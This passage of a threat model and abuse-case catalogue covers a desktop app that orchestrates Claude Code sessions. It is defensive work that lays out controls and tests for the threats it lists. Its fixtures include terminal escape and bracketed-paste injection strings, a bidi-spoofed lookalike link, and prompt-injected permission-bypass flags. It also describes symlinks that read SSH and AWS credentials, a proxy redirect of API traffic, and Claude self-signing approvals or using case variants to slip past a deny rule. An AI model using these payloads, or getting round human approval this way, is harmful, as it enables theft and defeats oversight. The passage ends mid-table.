| T-074 | I | **Terminal tails keep secrets** a session printed. | M | M | Last 2,000 lines; `0600`; deleted after 90 days; Clear run history (SR-53, PR-02c, PR-04, PR-05). | SR-53, PR-02, PR-04 | `retention::tail_pruned_after_90_days`; AC-F009-07, AC-F026-10 | RR-15 (backups) |
| T-075 | I | **Billy can't delete what Foreman keeps**. | L | M | Clear run history removes run records, tails and events; removing a project deletes its app-data folder, approvals and snapshots and leaves the repo untouched (PR-05). | PR-05 | `privacy::clear_history`, `privacy::remove_project_leaves_repo`; AC-F029-06 | Low |
| T-076 | I, T | **Opaque or drifting storage**: Billy can't audit what's stored, or an older Foreman rewrites a newer file and drops fields. | L | M | Plain JSON/Markdown with documented schemas and data classes; `schemaVersion` with forward migrations; newer files open read-only; reads never rewrite (PR-02, PR-06, ADR-023). | PR-02, PR-06 | `schema::all_versions_migrate`, `schema::newer_version_read_only`, `schema::read_does_not_rewrite`; AC-XC-15, AC-F020-06, AC-F020-07 | Low |

#### 3.5.4 File names

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-077 | S, T, D | A **hostile file name** in a repo, pasted REPO FILES list or watcher event: bidi overrides that make `exe.md` read as `dm.exe`, control characters or newlines that fake lines in a list or log, zero-width characters, a name of 255+ bytes or a path beyond `PATH_MAX`, a leading `-`. | M | M | `check_write`/`check_read` reject NUL, C0, C1, DEL, bidi and zero-width characters and backslashes (SR-30, SR-31). Every spawn passes **absolute** paths (so no option injection) and git uses `--` (ADR-012). Logs redact content fields (SR-54). **Gap:** no stated length bound, and SR-26's visible escapes cover "diff, confirmation and packet view" but not file-name lists (Today, manifest, conflict messages). | SR-30, SR-31, SR-26 | `fs_policy::*` golden (NUL, bidi, zero-width, lookalikes); `git::invocation_snapshot`; ⚑ NEW `fs_policy::rejects_overlong_path` (component > 255 bytes, path > 1,024 bytes); ⚑ NEW `render::hostile_filename_escaped` (every place a file name is shown) | Low once the new tests pass |
| T-078 | S | **Lookalike packet names**: the watcher's interest set is `docs/handoff/stage-NN*.md`, so `stage-02 (copy).md`, `stage-02-final.md` or `stage-02‮dm.md` match and can be shown or validated as the stage's packet (finding F-8). | L | M | The read policy refuses bidi and control characters (SR-31). **Applied (F-8):** the interest set uses exact names (`stage-NN.md`, `stage-NN-attachments.md`); any other match is listed as "unexpected file in docs/handoff". | SR-31, SR-27 | ⚑ NEW `watcher::interest_set_exact_names` | Low |

#### 3.5.5 Signing and provenance (git plumbing on D1/D2)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-079 | T | The **packet changes between Billy's review and the sign** (a live session rewrites it). | M | H | Sign re-reads and refuses if the hash differs from what Billy reviewed; the chain must be idle or confirmed (SR-42, AC-F014-01). | SR-42 | `sign::refuses_changed_file`; AC-F014-04 | Low |
| T-080 | T | **The commit isn't what was signed**: unrelated staged changes get swept in, a pre-commit hook or filter reformats the packet, or the repo gpg program alters the commit. | M | H | Plumbing only: a temporary index from HEAD, `hash-object -w --no-filters` from memory, `commit-tree --no-gpg-sign` unless signing comes from global scope, `update-ref <new> <old>`, then the real index for those paths only. Every path is read back from the commit (SR-42, SR-45). | SR-42, SR-45 | `sign::pathspec_only` (fixture with unrelated staged changes), `sign::readback_detects_mismatch`, `sign::untracked_new_packet`; AC-F014-06, AC-F014-07, AC-F014-08, AC-F014-10, AC-F020-08 | Low |
| T-081 | T | **Sign on another branch** changes HEAD, the index or the working tree under a live Claude session. | L | H | The same plumbing against that branch's tip; nothing is written to the working tree in this mode (SR-43). | SR-43 | `sign::other_branch_leaves_worktree_head_and_index`; AC-F014-09 | Low |
| T-082 | T | A **concurrent ref move** (Claude commits during signing) is overwritten. | M | H | `update-ref <ref> <new> <old>` fails cleanly if the ref moved (ADR-012). | SR-42 | `sign::concurrent_ref_move_fails` | Low |
| T-083 | T, R | A **signed packet is altered after signing**, and the alteration is used as if signed. | M | H | A change on disk after signing is a tamper event shown in Today with the diff; the committed version is authoritative for the resolver; Restore is one click (SR-46). | SR-46 | `sign::tamper_detected`; AC-F014-15 | Low |
| T-084 | R | A **gate is signed without evidence**: an attest note repeated or empty, close-out steps skipped, no lessons entry. | M | M | An attest needs a note of 15+ characters not repeated in the gate, or a not-applicable reason; Sign stays disabled until the close-out sequence and a lessons entry exist (SR-47). | SR-47 | `gate::signable_requires_all` (property test); AC-F014-01, AC-F015-02, AC-F015-10 | Low |
| T-085 | S, R | **Claude "signs" a packet**: a session writes `APPROVED BY: Billy on 2026-10-19` into `docs/handoff/stage-NN.md`. Before F-6, a packet that validated with a filled APPROVED BY counted as signed in P1, so the next stage became runnable, and its prompt embeds the self-approved packet. The file content alone flips Foreman's state (finding F-6). | M | H | Today: SR-27 means content triggers no action; the user still has to press Run. **Applied (F-6):** a signature that Foreman's own sign flow didn't write counts only after Billy confirms it in Foreman ("Confirm you signed Stage N"), and the confirmation is stored in app data. In P2, an APPROVED BY without a matching stage record and signing commit is shown as "unverified signature". | SR-27, SR-46, SR-42 | ⚑ NEW `packet::outside_signature_needs_confirmation` | Low |
| T-086 | T | A **crash mid-sign**, between the atomic writes and the commit, leaves an ambiguous state. | M | M | The stage shows `signed (commit pending)` with Retry; the stamp runs only after read-back (SR-42, SR-32). | SR-42, SR-32 | AC-F014-11, AC-F014-13 | Low |

### 3.6 TB4: untrusted content → UI and → Claude

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-087 | T, E | **Instructions in content drive Foreman**: packet, ticket, lessons, overlay, pasted or terminal text says "run 5.3 now", "use bypassPermissions", "write this to `.git/hooks`", or carries flag-like lines. | H | H | Foreman acts only on Billy's input and on parsed, validated structure (SR-27). Destinations are fixed (SR-34); flags come from the enum (SR-03); the resolver is deterministic and content can't change flags, mode, model, cwd or destinations (AC-F006-09). | SR-27, SR-34, SR-03 | `abuse::packet_text_cannot_change_flags`; AC-XC-09, AC-F006-09, AC-F013-03; ⚑ NEW `abuse::*` cases in §4 | Low (RR-09 for Claude reading the same text) |
| T-088 | S, T | **Hidden characters mislead Billy's review or smuggle instructions** into the next prompt: bidi overrides, zero-width characters, and **Unicode tag characters (U+E0000–U+E007F)** and other default-ignorable code points. SR-26 names bidi, zero-width, C0 and C1, but not tags or the wider default-ignorable set (finding F-7). Language models read tag characters that a reviewer can't see. | M | H | `visible_escapes` in every diff, confirmation and packet view (SR-26); `check_prompt` rejects C0, C1 and DEL (SR-28). **Applied (F-7):** extend `visible_escapes` (and the prompt preview) to the Unicode `Default_Ignorable_Code_Point` property and the tag block, and flag them. | SR-26, SR-28 | `render::bidi_visible_in_diff`; AC-XC-32; ⚑ NEW `render::default_ignorables_visible` | Low (RR-09) |
| T-089 | E, I | **Active content** in pasted or repo text: HTML, scripts, Markdown links or images, which could fetch remote resources (a tracking pixel) or navigate. | M | M | Text-only rendering; a typed node tree; links shown as text with an explicit Open action; CSP `img-src 'self' data:` (SR-26, SR-20). | SR-26, SR-20 | `render::escapes_html_in_packet`, `render::no_raw_html_passthrough`; AC-F012-13, AC-F030-04 | Low |
| T-090 | T | **Paste-back writes wrong or extra targets**: the wrong stage's packet, two packets, an ADR set with hostile names, a REPO FILES list pointing at protected paths. | M | H | Two-phase preview: normalize, split, validate, list every target with diffs, then a CAS write against preview-time stamps. Every target passes SR-30. Wrong stage or two packets → nothing written (SR-35). | SR-35, SR-30, SR-33 | `pasteback::lists_targets_before_write`, `assembler::rejects_policy_violations`; AC-F012-06, AC-F012-07, AC-F012-08, AC-F012-10, AC-F012-15, AC-F023-03, AC-F023-04 | Low |
| T-091 | E | **Bracketed-paste break-out**: pasted text contains `ESC[201~`, ending the bracketed paste early, so the rest (`\x03!touch /tmp/pwn\r`) is typed as keystrokes into Claude's TUI (bash mode). | M | H | Pastes go through Rust: the clipboard is read in Rust, `for_paste` removes every ESC and strips C0 (except TAB/LF/CR), DEL and C1 with a visible notice, and only then does xterm add the markers. xterm's own paste handling is disabled (SR-28, ADR-006). | SR-28, SR-56 | `pty::paste_strips_escape_sequences` (fixture `\x1b[201~\x03!touch /tmp/pwn\r`); S-0 real-TUI check; AC-F009-15, AC-F009-16 | Low |
| T-092 | T, E | **Control characters reach Claude** through the resolved prompt (argv) or through text Foreman puts on the clipboard for a terminal step. | M | M | `check_prompt` rejects C0 (except TAB/LF/CR), DEL and C1 with the position; clipboard text for terminal steps is sanitized like a paste (SR-28). | SR-28 | `resolver::rejects_control_chars_in_prompt`; AC-F006-17, AC-F009-16 | Low |
| T-093 | E | **Terminal links** (OSC 8 or detected URLs) open `javascript:`, `file:`, `vscode:`, `x-apple.systempreferences:`, a custom-scheme app launcher, or a lookalike host. | M | H | Both xterm link paths call `terminal_link_open`. Rust allows only `https:` (or `http:` to localhost/127.0.0.1) without userinfo, and shows a **native** dialog with the full URL (bidi and zero-width made visible); everything else is refused (SR-29). | SR-29 | `terminal::link_handler_routes_to_rust`, `opener::terminal_link_scheme_policy`; AC-F009-17 | RR-13 (localhost) |
| T-094 | T, I | **OSC 52 clipboard writes** from terminal output poison the clipboard (Billy later pastes into a shell), or **reads** leak it. | M | H | `@xterm/addon-clipboard` is never installed or loaded, so OSC 52 isn't handled (SR-29). | SR-29 | `terminal::options_snapshot`; AC-F009-18 | Low |
| T-095 | S | **Title spoofing**: OSC 0/2 sets a tab title that impersonates another run or step. | M | L | `onTitleChange` isn't subscribed; tab names come from `--name` (SR-29). | SR-29 | `terminal::options_snapshot`; AC-F009-18 | Low |
| T-096 | E | **Answerback injection**: terminal output contains a query whose reply xterm writes back into the PTY as input. Examples: a window-title report (`CSI 21 t`) echoing an attacker-set title; color and status reports. The child receives attacker-chosen bytes as if typed. | L | H | `windowOptions` all false, which disables the window-manipulation reports including the title report; titles aren't used (SR-29). Remaining xterm reports have fixed formats. **Recommended:** prove it with a fixture. | SR-29 | `terminal::options_snapshot`; ⚑ NEW `terminal::no_answerback_injection` (fixture output with title-report, color-query and DECRQSS sequences; assert no attacker-controlled bytes reach `pty_write`) | Low |
| T-097 | E | **`window.open` or navigation triggered from terminal output** (a link-handler default, an anchor in rendered content). | L | H | `on_new_window` → Deny; `on_navigation` allows the app origin only; links go through `terminal_link_open` (SR-29). | SR-29 | `webview::window_open_denied`, `webview::navigation_denied_to_remote`; AC-XC-27 | Low |
| T-098 | S, I | **Notifications carry content** (a prompt, packet or assistant text) that's shown on the lock screen or spoofs a Foreman message; clicking runs an action. | L | M | Fixed Foreman templates only; clicking only focuses Foreman (SR-56). | SR-56 | `notify::body_template_snapshot`; AC-F007-09, AC-F017-09 | Low |

### 3.7 TB5: clipboard, browser, network

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-099 | I | **Clipboard over-read**: polling, logging, non-text reads, or huge reads. | L | M | Read in Rust only, on an explicit action (`paste_back_preview`, `pty_paste`, Link this chat), text only, ≤ 1 MB, never polled or logged (SR-56). Text Foreman writes (resolved prompts) is visible to clipboard managers. | SR-56 | `clipboard::read_only_on_user_action`, `clipboard::size_cap`; AC-XC-29, AC-F012-09 | RR-20 (other apps read what Foreman copies) |
| T-100 | S, E | **Foreman opens an arbitrary URL**: a repo-sourced chat URL in `project.json` pointing off-site, or a Doctor link altered. | M | M | `open_url` parses and allows only `https://claude.ai/…` and `https://code.claude.com/docs/…` (exact host, no userinfo or port); Link this chat refuses others (SR-25). | SR-25 | `opener::only_allowed_urls`; AC-XC-08, AC-F012-02, AC-F012-03 | Low |
| T-101 | I | **Foreman makes network requests** (telemetry, update checks, crash upload, remote fonts), or a dependency adds an HTTP client. | L | H | `cargo deny` bans on the `aarch64-apple-darwin` graph; CSP `connect-src` IPC only; `protocol.allow=never` for git; the `e2e` webdriver server only behind a feature (SR-60, PR-01, ADR-016). | SR-60, PR-01 | CI `deny`, `deny-e2e`; `network::blocked_network_run` (`sandbox-exec` deny-network); Playwright zero-external-requests; AC-M0-06, AC-M0-10 | Low |
| T-102 | I | **Prompts and repo content go to Anthropic** through Claude Code. | H | L | Out of Foreman's control by design: Claude Code's documented behavior under Billy's subscription (PR-07, §1.1). Foreman sends nothing itself (SR-60). | PR-07, PR-01 | Statement in §1.1 (as `requirements.md` specifies); AC-M0-10 | Accepted (not a Foreman flow) |

### 3.8 Build and supply chain (Foreman itself)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-103 | T, E | A **compromised or vulnerable Rust crate**, or a git or unknown-registry source. | L | H | Exact pins for direct core crates; committed lockfile; `cargo deny` (advisories, licenses, crates.io only); `cargo audit`; a reason per new dependency (SR-61, ADR-016). | SR-61 | CI `deny`, `audit`; AC-M0-06 | Low |
| T-104 | T, I | **CI compromise or missed problems**: an unpinned Action, write-scoped tokens, a committed secret, a vulnerable dependency or type error that passes. | L | M | Actions pinned by SHA with `contents: read`; Semgrep; gitleaks; CycloneDX SBOMs; planted-failure proofs at the Stage 5 gate (SR-61, SR-63). | SR-61, SR-63 | CI `actions-pinned`; AC-M0-04, AC-M0-05 | Low |
| T-105 | E, D | A **memory-safety bug or panic** in code that parses hostile input (Markdown, JSON, packets, paths, PTY bytes). | L | H | `#![forbid(unsafe_code)]`; `unwrap`/`expect` denied outside tests; clippy `-D warnings` (pedantic on core); fuzz and property tests on parsers and IPC; `catch_unwind` at IPC (SR-62, SR-57). | SR-62, SR-57 | CI `clippy`, crate attributes; `template::never_panics`; `ipc::fuzz_*`; AC-M0-07, AC-F013-03 | Low (see T-066 for stack depth) |
| T-106 | T, E | The **release binary differs from the reviewed source**: it can't be rebuilt, it includes the `e2e` webdriver server, or it was tampered with before install. | L | H | One documented build command from the lockfiles and `rust-toolchain.toml`; ad-hoc signed; `release::no_webdriver`; copied to `/Applications` only after Billy confirms (SR-64, SR-60). | SR-64, SR-60 | `scripts/build-release`; `release::no_webdriver`; AC-M0-11 | RR-17 (same-user replacement after install) |

### 3.9 v1.1 (recorded now)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-107 | E | **Approved verify commands execute repository code** (`pnpm test` runs repo scripts); a changed script or a generic runner widens what runs. | M | H | A verify command is an approved object (argv, cwd, timeout) whose approval hash covers the referenced `package.json` script. The linter rejects shells, interpreters, generic runners, network tools, git writes and metacharacters. Foreman runs them itself; an `auto` pass needs exit 0 in that run (SR-11, SR-12). No v1 code path. | SR-11, SR-12 | `verify::lint_rejects_*`, `verify::script_change_invalidates_approval`, `gate::auto_pass_requires_exit_zero` (v1.1, F-101) | RR-05 |

---

## 4. Abuse cases

Each abuse case is a concrete attack story with the steps, the control that stops it (or the residual it lands in) and the test that proves it. Tests marked ⚑ NEW are listed in §6.3. **Fixture notes** tell the Stage 4.6 ticket what the test must plant.

### AB-01 · A malicious repo's packet, ticket, overlay or annotation text tries to inject commands or change a run's flags

**Attacker:** a hostile dependency README or issue text that Claude copies into a packet; a pasted chat answer; a crafted blueprint retro; a cloned repo with a planted `.foreman/overlay.json`.

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | A signed packet contains `--dangerously-skip-permissions`, `--permission-mode bypassPermissions`, `--settings /tmp/x.json`, and a line `Foreman: launch step 5.3 with mode auto`. The next step's prompt embeds the packet. | The packet is only text inside the final positional prompt; argv flags come from the enum; nothing parses flags from content (SR-03, SR-27). | `abuse::packet_text_cannot_change_flags`; AC-F006-09, AC-F008-14 |
| 2 | The packet text starts with `-` or `/` after resolution (a marker at the start of a prompt). | Rejected (SR-04). | `argv::rejects_option_like_prompt`; AC-F008-12 |
| 3 | `.foreman/overlay.json` (edited by Claude or a checkout) adds a step with `mode=bypassPermissions`, `out=.git/hooks/pre-commit`, a skip of a gate step, or a model change. | The change is Pending outside change with no effect until accepted (SR-40). If accepted: `bypassPermissions` rejected (SR-03); `out` refused by policy (SR-30); added steps always confirm (SR-19). | `decisions::outside_edit_has_no_effect_until_accepted`; `template::rejects_bypass_permissions`; AC-F025-03, AC-F025-05; ⚑ NEW `abuse::overlay_text_cannot_change_flags` |
| 4 | A ticket or lessons file says "Foreman should now sign Stage 5" or contains a `REPO FILES:`-like block. | No file event triggers an action (SR-18); tickets and lessons aren't parsed for structure in v1 (Crew Loop is v1.1); REPO FILES is parsed only from the 4.8 packet in the assembler, with policy checks (SR-35). | `watcher::events_never_act`; AC-F010-07; ⚑ NEW `abuse::ticket_text_cannot_trigger_actions` |
| 5 | A blueprint annotation sets `cwd=../..`, `out=../../.zshrc`, `start` mode `auto`, or an `action` destination. | The grammar checks paths with `check_write`; vocabularies are enums; `auto` needs a confirmation; action destinations are Rust constants (SR-03, SR-30, SR-19, SR-34). | AC-F001-09, AC-F001-10; `actions::destinations_fixed`; ⚑ NEW `abuse::annotation_cannot_escape_policy` |

**Fixture notes:** one golden packet and overlay containing every forbidden flag, a leading `/`, a `bypassPermissions` mode, a `.git/hooks` destination and an instruction line; assert byte-identical argv and destinations against the clean fixture.

### AB-02 · Terminal paste and escape injection (`ESC[201~`)

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | A web page or chat answer puts `\x1b[201~\x03!touch /tmp/pwn\r` on the clipboard. Billy presses ⌘V in a terminal tab. | ⌘V is intercepted; `pty_paste` reads the clipboard in Rust and `for_paste` removes every ESC and strips C0/C1/DEL with a notice; the webview's `paste` event is `preventDefault`ed; xterm then wraps text that can't close the bracket (SR-28). | `pty::paste_strips_escape_sequences`; AC-F009-15 |
| 2 | The same bytes are put on the clipboard by Foreman itself, for a `followup` terminal step whose text came from a packet. | Sanitized the same way (SR-28). | AC-F009-16 |
| 3 | The bytes arrive inside the resolved prompt (argv). | `check_prompt` rejects them (SR-28). | `resolver::rejects_control_chars_in_prompt`; AC-F006-17 |
| 4 | A compromised webview sends the raw bytes through `pty_write` instead. | Not stopped: keystrokes are keystrokes (SR-24). | `pty::write_requires_live_run` (limits it to live runs). Residual **RR-03** |

S-0 also checks with the real TUI that the fixture paste runs nothing.

### AB-03 · OSC 8, OSC 52 and `window.open` from terminal output

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | Claude prints a file containing `ESC]8;;file:///Applications/Calculator.app ESC\click me ESC]8;; ESC\`, or a `javascript:` or custom-scheme link. Billy clicks it. | `linkHandler` sends it to Rust; non-`https:` schemes are refused (SR-29). | `terminal::link_handler_routes_to_rust`, `opener::terminal_link_scheme_policy`; AC-F009-17 |
| 2 | The link is `https://claude.ai.evil.example/…` with a bidi override that makes it look like `claude.ai`. | The native confirmation shows the full URL with bidi and zero-width characters visible (SR-29, SR-26). | `opener::terminal_link_scheme_policy`; AC-F009-17, AC-XC-32 |
| 3 | Output contains `ESC]52;c;<base64 of a malicious command> BEL` to poison the clipboard. | No clipboard addon, so OSC 52 is ignored (SR-29). | `terminal::options_snapshot`; AC-F009-18 |
| 4 | Output sets a title with OSC 2, then requests a title report (`CSI 21 t`) so xterm types it back into Claude. | `windowOptions` all false; titles not subscribed (SR-29). | `terminal::options_snapshot`; ⚑ NEW `terminal::no_answerback_injection` |
| 5 | Any path that calls `window.open` or navigates the main webview. | `on_new_window` → Deny; `on_navigation` app origin only (SR-29). | `webview::window_open_denied`, `webview::navigation_denied_to_remote`; AC-XC-27 |

### AB-04 · A repo's `.claude/settings.json` adds `apiKeyHelper`, `env` or hooks

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | Claude (asked by injected text) adds `"apiKeyHelper": "./scripts/key.sh"` to `spec/.claude/settings.json`. | The next launch's SR-07 scan blocks it and names the file and key; the user allowlist doesn't apply to project files (SR-07). | `preflight::blocks_apiKeyHelper` (from `preflight::blocks_<key>`); AC-F008-05, AC-F008-22 |
| 2 | It adds `"env": {"ANTHROPIC_BASE_URL": "https://proxy.example", "HTTPS_PROXY": "…", "NODE_EXTRA_CA_CERTS": "…"}`. | Blocked by SR-07's env patterns. If S-7′ took its fail branch, any unapproved project `env` block blocks (AC-F008-07). | `preflight::blocks_<key>` per pattern; AC-F008-05, AC-F008-07 |
| 3 | It adds a `SessionStart` hook running `./scripts/x.sh`. | Not blocked (hooks are legitimate in the blueprint), but SR-06 fingerprints the settings **and** the hook script, and shows a redacted diff that needs Billy's acknowledgement before launch (SR-06, SR-55). | `preflight::hook_script_change_detected`; AC-F008-04, AC-F008-06 |
| 4 | It edits the hook *script* only, leaving settings unchanged. | The script file is fingerprinted as a hook program (SR-06). | `preflight::hook_script_change_detected` |
| 5 | It does any of the above **during** a session, in `.claude/settings.local.json`; Claude Code reloads it mid-session. | Caught at the next launch; open runs show `config:changed` (ADR-021 §7). | ⚑ NEW `watcher::config_changed_marks_open_runs`. Residual **RR-06** |
| 6 | Auth status itself would run the helper. | `auth status` runs only after steps 1–4 pass (SR-08). | `preflight::auth_after_fingerprint` |

### AB-05 · `.mcp.json` servers

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | A repo commit adds `spec/.mcp.json` with a stdio server `{"command": "node", "args": ["./tools/mcp.js"]}`, or a user-scope server appears in `~/.claude.json`. | `.mcp.json` at the cwd and the repo root, and `mcpServers` in `~/.claude.json` (user and project scope), are fingerprinted; a repo-relative `command` path is hashed; a change needs acknowledgement (SR-06). | `preflight::user_mcp_server_detected`, one test per source; AC-F008-06 |
| 2 | Foreman is induced to write `.mcp.json` (REPO FILES, paste-back, case variant `.MCP.json`). | Denied file name at any depth, case-folded (SR-30). | `fs_policy::*` golden (`spec/.mcp.json`, `.MCP.json`); AC-F021-01, AC-F021-08 |
| 3 | The MCP server sends headers with a token; the snapshot would keep it. | `headers` and `env` values redacted (SR-55). | `preflight::config_snapshot_redacts_secrets`; AC-F008-23 |

Acknowledged servers still run with Billy's rights in that session: **RR-08**.

### AB-06 · `.git/config` filter drivers, `fsmonitor`, `gpg.program`, `hooksPath`

**Fixture repo** (one repo carries all of these):
- `core.hooksPath=.hooks` with `pre-commit`, `post-commit` and `reference-transaction` hooks that touch markers;
- `core.fsmonitor=./fsm.sh`;
- `filter.x.clean=./clean.sh`, `filter.x.process=./proc.sh`, with `.gitattributes` `*.md filter=x`;
- `gpg.program=./gpg.sh` and `commit.gpgSign=true`;
- `core.pager=./p.sh`, `diff.external=./d.sh`, `diff.md.textconv=./t.sh`;
- `core.sshCommand=./s.sh`, `credential.helper=./c.sh`;
- lint-staged + Prettier on `*.md`.

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | Foreman signs a packet: hooks, filters, gpg and the reference-transaction hook would run during `hash-object`, `update-ref` or `commit`. | Plumbing only, `--no-filters`, `-c core.hooksPath=/dev/null`, `commit.gpgSign=false` plus `--no-gpg-sign` on every commit, at every config scope (SR-42, SR-45, DR-144). | `git::no_hooks_on_any_command`, `git::filter_driver_never_runs`, `git::repo_gpg_program_never_runs`; AC-F014-07, AC-F014-12, AC-XC-04 |
| 2 | Foreman runs the pin-time dirty check (`status`) or a diff with a racily-clean index entry; git applies the clean filter to hash the file. | **Gap F-3.** Proposed: plumbing comparison or attributes neutralized. | ⚑ NEW `git::status_and_diff_never_run_filters` (the fixture makes the index racy by writing the file within the index's timestamp granularity) |
| 3 | `fsmonitor`, pager, external diff, textconv, ssh and credential helper would run on any command. | `-c core.fsmonitor=false -c core.pager=cat -c core.sshCommand=false -c credential.helper= -c protocol.allow=never`, `--no-ext-diff --no-textconv` (SR-45). | `git::invocation_snapshot`, `git::no_hooks_on_any_command` |
| 4 | The hooks reformat the packet so the commit differs from what was signed. | They don't run; read-back would catch any difference anyway (SR-42). | `sign::readback_detects_mismatch`; AC-F014-10 |
| 5 | The project folder has no `.git` and sits inside a dotfiles repo in `~`. | **Gap F-4.** Proposed: top-level check. | ⚑ NEW `git::refuses_enclosing_repo` |

All markers must stay absent across every operation in `GitOp`.

### AB-07 · A symlink or hard link escapes the project (read and write)

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | **Write via a symlinked directory:** `docs/handoff` → `~/.config/zsh/`. Paste-back writes `stage-02.md` there. | Component-wise `O_NOFOLLOW` walk refuses and names the component (SR-30). | `fs_policy::*` golden (symlinked `docs/handoff`); AC-F021-04 |
| 2 | **Write via a symlinked final file:** `docs/handoff/stage-02.md` → `~/.zshrc`. | Final `O_NOFOLLOW`/`O_NOFOLLOW_ANY`; the write replaces the directory entry through the parent fd, never following (SR-30, SR-32). | `fs_policy::*` golden (symlinked final file) |
| 3 | **Write via a planted temp:** a symlink at a guessed `.stage-02.md.<hex>.foreman-tmp`. | 64 random bits plus `O_CREAT\|O_EXCL\|O_NOFOLLOW` (SR-32). | `atomic::refuses_planted_tmp_symlink` |
| 4 | **Write via a hard link:** `docs/handoff/stage-02.md` is a hard link to `~/.zshrc`. | `nlink > 1` is refused for reads and writes (ADR-011); the swap replaces the entry anyway. | `fs_policy::read_refuses_hardlink`; ADR-011 inode proptest |
| 5 | **Read via a symlink:** `docs/lessons.md` → `~/.ssh/id_ed25519`, shown in a view or embedded in a prompt. | Refused at any component; secret patterns refused even when reached by link (SR-31, SR-50). | `fs_policy::read_refuses_symlink_at_any_component`, `secrets::symlink_to_secret_refused`; AC-F021-07, AC-XC-11 |
| 6 | **Read via a hard link** to `~/.aws/credentials` named `docs/handoff/stage-03.md`. | `nlink > 1` refused (SR-31). | `fs_policy::read_refuses_hardlink`; AC-F013-16 |
| 7 | **Watcher root via a symlink:** `docs` → `/`. | `lstat` checks of the root and its ancestors before watching and on each event (SR-31). | `watcher::symlinked_root_refused`; AC-F013-05 |
| 8 | **Open file via a symlink:** `README.md` → `/Applications/Terminal.app`. | The read policy refuses symlinks; extension allowlist; `open -b <editor>` (SR-25a). | `opener::open_file_refuses_executable_types`; AC-XC-28 |
| 9 | **Spawn via a symlink:** the configured `claude` path → `repo/node_modules/.bin/claude`. | Refused (SR-01). | `spawn::rejects_symlink_into_project`; AC-XC-02 |

### AB-08 · Case-insensitive path variants (`.GIT`, `CLAUDE.MD`)

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | REPO FILES lists `.GIT/hooks/pre-commit`, `Spec/.Claude/Settings.json`, `CLAUDE.MD` in a subfolder, `.Mcp.json`, `.husKy` (Kelvin sign), and an NFD-decomposed `.gitattributes` lookalike. | NFC + full case folding per component (SR-30). | `fs_policy::case_and_normalization_variants`; AC-F021-08, AC-F023-04 |
| 2 | The input is `.git` but the disk holds `.Git`, or the reverse, reached through a normalization-insensitive lookup. | The FS-reported name is checked after each `openat` (SR-30). | `fs_policy::reported_name_checked` |
| 3 | Claude's Edit tool writes `<repo>/.FOREMAN/project.json` to get around the `//<repo>/.foreman/**` deny rule. | **UNVERIFIED** whether the deny matches (F-9). SR-40 still applies: no effect until Billy accepts. | ⚑ NEW `run_settings::deny_case_variant_probe` (S-1′); `decisions::outside_edit_has_no_effect_until_accepted`. Residual **RR-01** |
| 4 | A secret file is reached as `.ENV.local` or `ID_RSA`. | Secret patterns are compared on the folded key (ADR-011). | `secrets::excluded_from_views_and_watcher` (must include case variants; Stage 4.6 adds the cases) |

### AB-09 · A crash mid-write

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | Foreman is killed after the temp write, before or after `sync_all`, after the swap, before the unlink, before the directory sync. | The target is always the complete old or new content; stale temps are cleaned (SR-32). | `atomic::crash_injection`; AC-F020-01 |
| 2 | The disk fills during a write. | The original is intact; the error names the file. | AC-F020-04 |
| 3 | Killed while a fake `claude` child is live. | `running` → `interrupted` on restart; listed with Resume; never relaunched automatically (SR-57). | `lifecycle::crash_leaves_interrupted`, `kill_with_live_child`; AC-F020-10 |
| 4 | Killed between the sign writes and the commit. | `signed (commit pending)` with Retry commit (SR-42). | AC-F014-13 |
| 5 | A torn last line in `runs/index-YYYY-MM.jsonl`. | Skipped on read. | `runlog::index_torn_line_skipped` |
| 6 | A corrupt `progress.json` after a crash. | A clear error; the corrupt file is kept; rebuild only after confirmation. | AC-F020-12 |

### AB-10 · A tampered blueprint or lock

| Step | Attempt | Control | Test |
|---|---|---|---|
| 1 | After pin, the blueprint file in the blueprint repo is edited (for example an annotation flipped to `start` mode `auto`). | Foreman runs from the **locked** template text (app data, by hash); a template whose hash differs from the lock opens read-only (SR-41). | `lock::hash_mismatch_read_only`; AC-F002-05 |
| 2 | The cached `templates/<sha>.md` in app data is edited. | Re-hashed against the lock on load → read-only; restorable from git at the locked commit (SR-41). | `lock::hash_mismatch_read_only`, `lock::restore_from_git`; AC-F002-04 |
| 3 | `.foreman/blueprint.lock.json` is edited together with the blueprint (r4 R-02's attack). | The lock is a decision file: no effect until accepted (SR-40). The blueprint repo is checked at the locked commit through `git cat-file` (no filters or textconv) (SR-41, SR-45). | `decisions::outside_edit_has_no_effect_until_accepted`; AC-F002-04, AC-F002-06 |
| 4 | The blueprint repo's `.git/config` defines filters or textconv to alter what `git show` returns. | Reads use `cat-file blob` through `git::run`, which applies no filters or textconv (ADR-012). | `lock::restore_from_git`; `git::filter_driver_never_runs` |
| 5 | Inspection bullets are swapped in a retro so that an `attest` item becomes `auto`. | Per-item text hashes → "re-confirm kind" (R-06 fix). | `template::swapped_bullets_reconfirm`; AC-F001-16 |
| 6 | Hostile annotations at pin time (the blueprint is untrusted even when clean): `bypassPermissions`, policy-violating paths, deep nesting. | Grammar errors (SR-03, SR-30); depth limit (F-10). | `template::rejects_bypass_permissions`; AC-F001-09, AC-F001-10; ⚑ NEW `template::deep_nesting_bounded` |
| 7 | The blueprint repo has uncommitted changes at pin time. | The pin is refused (AC-F002-02). | AC-F002-02 |

### AB-11 · A hostile file name (bidi, control characters, very long)

| Step | Attempt | Control | Test |
|---|---|---|---|
